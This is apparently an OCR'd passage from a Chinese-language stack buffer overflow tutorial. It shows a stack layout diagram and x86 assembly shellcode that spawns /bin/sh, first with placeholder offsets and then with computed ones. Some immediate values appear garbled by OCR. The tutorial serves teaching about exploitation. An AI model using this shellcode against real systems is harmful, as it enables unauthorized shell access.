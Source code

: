 ```
内存低地址                                       内存高地址
+----------------------+------+------+------+------+------+
| DDDDDDDDEEEEEEEEEEEE | EEEE | FFFF | FFFF | FFFF | FFFF |
+----------------------+------+------+------+------+------+
| 89ABCDEF0123456789AB | CDEF | 0123 | 4567 | 89AB | CDEF |
+----------------------+------+------+------+------+------+
|       buffer         | sfp  | ret  |  a   |  b   |  c   |
+----------------------+------+------+------+------+------+
| JJSSSSSSSSSSSSSSCCss | ssss | 0xD8 | 0x01 | 0x02 | 0x03 |
+----------------------+------+------+------+------+------+
  ↑|↑             ↑|            |
  +||-------------||------------+ (1)
   +|-------------+|              (2)
    +--------------+              (3)
堆栈顶部                                           堆栈底部
```

运用上述的修正方法, 并使用相对索引寻址, 我们代码中每条指令的字节数目如下:


```asm
jmp offset-to-call # 2 bytes
popl %esi # 1 byte
movl %esi,array-offset(%esi) # 3 bytes
movb x0,nullbyteoffset(%esi)# 4 bytes
movl x0,null-offset(%esi) # 7 bytes
movl xb,%eax # 5 bytes
movl %esi,%ebx # 2 bytes
leal array-offset(%esi),%ecx # 3 bytes
leal null-offset(%esi),%edx # 3 bytes
int x80 # 2 bytes
movl x1, %eax # 5 bytes
movl x0, %ebx # 5 bytes
int x80 # 2 bytes
call offset-to-popl # 5 bytes
/bin/sh string goes here.
```

通过计算从jmp到call, 从call到popl, 从字串地址到数组, 从字串地址到空长字的
偏量, 我们得到:


```asm
jmp 0x26 # 2 bytes
popl %esi # 1 byte
movl %esi,0x8(%esi) # 3 bytes
movb x0,0x7(%esi) # 4 bytes
movl x0,0xc(%esi) # 7 bytes
movl xb,%eax # 5 bytes
movl %esi,%ebx # 2 bytes
leal 0x8(%esi),%ecx # 3 bytes
leal 0xc(%esi),%edx # 3 bytes
int x80 # 2 bytes
movl x1, %eax # 5 bytes
movl x0, %ebx # 5 bytes
int x80 # 2 bytes
call -0x2b # 5 bytes
.string \"/bin/sh\" # 8 bytes
```
